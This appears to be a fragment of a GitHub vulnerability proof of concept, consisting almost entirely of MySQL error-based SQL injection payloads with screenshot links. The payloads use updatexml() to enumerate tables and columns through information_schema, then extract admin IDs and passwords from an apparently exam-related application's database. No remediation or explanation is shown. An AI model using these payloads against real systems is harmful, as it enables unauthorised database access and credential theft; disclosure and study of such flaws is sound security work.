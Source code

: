 
a' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='result' LIMIT 2,1),0x7e),1) AND '1'='1
<img width="1404" height="717" alt="image" src="https://github.com/user-attachments/assets/d2a90922-c391-459a-9656-163a933d039e" />



a' AND updatexml(1,concat(0x7e,(SELECT RsID FROM result LIMIT 0,1),0x7e),1) AND '1'='1

<img width="1348" height="702" alt="image" src="https://github.com/user-attachments/assets/1f9be308-1ad5-4e16-9275-ae51de452bc0" />



- Payload column to table admin:

  
a' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='admin' LIMIT 0,1),0x7e),1) AND '1'='1

<img width="1401" height="706" alt="image" src="https://github.com/user-attachments/assets/f1933ec8-d2ca-431c-89c5-0eee74193501" />


- Payload column to table admin:
  
  
a' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='admin' LIMIT 1,1),0x7e),1) AND '1'='1

<img width="1340" height="678" alt="image" src="https://github.com/user-attachments/assets/4377d5fd-6423-4eb6-b9f7-2df88b37430b" />


- Payload Aid to admin:
  
  
a' AND updatexml(1,concat(0x7e,(SELECT Aid FROM admin LIMIT 0,1),0x7e),1) AND '1'='1

<img width="1339" height="686" alt="image" src="https://github.com/user-attachments/assets/648b0847-e327-4591-8380-16ff6a381287" />


- Payload password to admin:
  

a' AND updatexml(1,concat(0x7e,(SELECT Apass FROM admin LIMIT 0,1),0x7e),1) AND '1'='1  

<img width="1330" height="677" alt="image" src="https://github.com/user-attachments/assets/4abd07b9-f958-45c6-8c78-f44b2c994cb7" />




a' AND updatexml(1,concat(0x7e,(SELECT column_name FROM information_schema.columns WHERE table_name='examans' LIMIT 0,1),0x7e),1) AND '1'='1

a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 7,1),0x7e),1) AND '1'='1

a' AND updatexml(1,concat(0x7e,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 8,1),0x7e),1) AND '1'='1






















